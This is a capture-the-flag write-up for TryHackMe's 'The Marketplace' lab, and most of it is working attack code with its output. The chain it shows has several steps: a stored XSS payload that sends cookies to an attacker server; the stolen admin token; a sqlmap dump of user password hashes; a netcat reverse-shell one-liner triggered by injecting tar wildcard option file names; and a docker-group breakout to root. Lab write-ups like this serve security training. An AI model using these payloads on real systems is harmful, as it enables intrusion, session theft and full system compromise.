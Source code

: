 ```yaml
---
title: The Marketplace - Writeup
---
```


_**Nov 13, 2020**_

[The Marketplace](https://tryhackme.com/room/marketplace) Writeup

## Recon :

```
bvr0n@kali:~/CTF/THM/Marketplace$ nmap -sC -sV 10.10.79.215
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_  256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
80/tcp    open  http    nginx 1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-server-header: nginx/1.19.2
|_http-title: The Marketplace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## XSS :

The nmap scan show a `/robots.txt` with 1 entry `/admin` So we can Login or SignUp.
I tried SQLi in the login page but i found nothing. So signed up to the webapp.
New Listing page posts the data to home page. Here we can try XSS.

##### Payload :

```
<script>fetch("http://IP:8000/"+document.cookie)</script>test
```
Listen on a local server :

```
bvr0n@kali:~/Documents/Reverse_Shells$ python -m SimpleHTTPServer
```

You will notice that when you hit submit we get the cookie as request from the server, but we need the admin to click on this link so we report it to the admin and voila :

```
10.10.79.215 - - [12/Nov/2020 16:36:13] code 404, message File not found
10.10.79.215 - - [12/Nov/2020 16:36:13] "GET /token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MDUyMTY5NzV9.YaVjT0qw5rwwmaDs4-A0f8F3ftvGYqIAe-8hMoN66lo HTTP/1.1" 404 -
```

Change the token value in the storage section and you will get the admin panel.

## SQL Injection :

The `/admin?user=2` address is vulnerable to SQL Injection, We can test with this payload after the `user=2` `‘ or 1=1` and we get this error :

`Error: ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '‘ or 1=1' at line 1`

Now we know that it's running MySQL, Now we can use `sqlmap` :

```
bvr0n@kali:~$ sqlmap http://10.10.19.78/admin?user=3 --cookie='token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MDUyODI4NjZ9.IgpK3J9x4W76CHNamc5WYhLahKx9Kr5AxMtqFgj0qTw' --technique=U --delay=2 -dump
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.9#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:58:06 /2020-11-13/

Cookie parameter 'token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] 
[10:58:11] [INFO] testing connection to the target URL
[10:58:15] [INFO] heuristic (basic) test shows that GET parameter 'user' might be injectable (possible DBMS: 'MySQL')
[10:58:43] [INFO] target URL appears to have 4 columns in query
```
We successfully extracted the database, the `messages` table had a ssh password.

```
Table: messages
[5 entries]
+----+---------+---------+-----------+--------------------------------------------------------------------------------------------------+
| id | is_read | user_to | user_from | message_content                                                                                  |
+----+---------+---------+-----------+--------------------------------------------------------------------------------------------------+
| 1  | 1       | 3       | 1         | Hello!\r\nAn automated system has detected your SSH password is too weak and needs to be changed.| 
|    |         |         |           | You have been generated a new temporary password.\r\nYour new password is: ****************      |
+----+---------+---------+-----------+--------------------------------------------------------------------------------------------------+
```
And also extracted all the users hash.

```
Database: marketplace                                                                                                                                               
Table: users
[4 entries]
+----+--------------------------------------------------------------+----------+-----------------+
| id | password                                                     | username | isAdministrator |
+----+--------------------------------------------------------------+----------+-----------------+
| 1  | $2b$10$83pRYaR/d4ZWJVEex.lxu.Xs1a/TNDBWIUmB4z.R0DT0MSGIGzsgW | system   | 0               |
| 2  | $2b$10$yaYKN53QQ6ZvPzHGAlmqiOwGt8DXLAO5u2844yUlvu2EXwQDGf/1q | michael  | 1               |
| 3  | $2b$10$/DkSlJB4L85SCNhS.IxcfeNpEBn.VkyLvQ2Tk9p2SDsiVcCRb4ukG | jake     | 1               |
| 4  | $2b$10$2iHEbf1uB1LvOlHyXvWfhedQgiS8pXIAIkMab0EhrssCtEZHUE2vy | admin    | 0               |
+----+--------------------------------------------------------------+----------+-----------------+
```


## Privilege Escalation :

##### User Michael :

```
jake@the-marketplace:~$ sudo -l
Matching Defaults entries for jake on the-marketplace:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
```
We can run `/opt/backups/backup.sh` as user `Michael`, Let's check the content of `backup.sh`

```
jake@the-marketplace:~$ cat /opt/backups/backup.sh 
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```
Tar wildcards is very dangerous, [Check Here](https://book.hacktricks.xyz/linux-unix/privilege-escalation/wildcards-spare-tricks) :

```
jake@the-marketplace:/opt/backups$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 8080 >/tmp/f" > shell.sh
jake@the-marketplace:/opt/backups$ touch "./--checkpoint-action=exec=sh shell.sh"
jake@the-marketplace:/opt/backups$ touch "./--checkpoint=1"
```
```
bvr0n@kali:~$ nc -lnvp 8080
listening on [any] 8080 ...
connect to [10.8.14.157] from (UNKNOWN) [10.10.70.189] 40246
$ id && whoami
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
michael
$
```

##### Upgrade Shell :

```
$ python -c 'import pty;pty.spawn("/bin/bash")'
[Ctrl+Z]
bvr0n@kali:~$ stty raw -echo
bvr0n@kali:~$ fg 
michael@the-marketplace:/opt/backups$ export SHELL=bash
michael@the-marketplace:/opt/backups$ stty rows 38 columns 116
michael@the-marketplace:/home/marketplace$ id
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
```
User michael is in docker group, seems intresting :

```
michael@the-marketplace:/home/marketplace$ docker image ls
REPOSITORY                   TAG                 IMAGE ID            CREATED             SIZE
themarketplace_marketplace   latest              6e3d8ac63c27        2 months ago        2.16GB
nginx                        latest              4bb46517cac3        3 months ago        133MB
node                         lts-buster          9c4cc2688584        3 months ago        886MB
mysql                        latest              0d64f46acfd1        3 months ago        544MB
alpine                       latest              a24bb4013296        5 months ago        5.57MB
```
We can abuse one of these images to get the root privileges, [Check This](https://gtfobins.github.io/gtfobins/docker/) :

```
michael@the-marketplace:/home/marketplace$ docker run -v /:/mnt --rm -it alpine chroot /mnt bash
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@9fe4ab0e0edd:/# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
root@9fe4ab0e0edd:/#
```
##### Congratulations, you now have complete access to the system. Hope you enjoyed this guide. :)

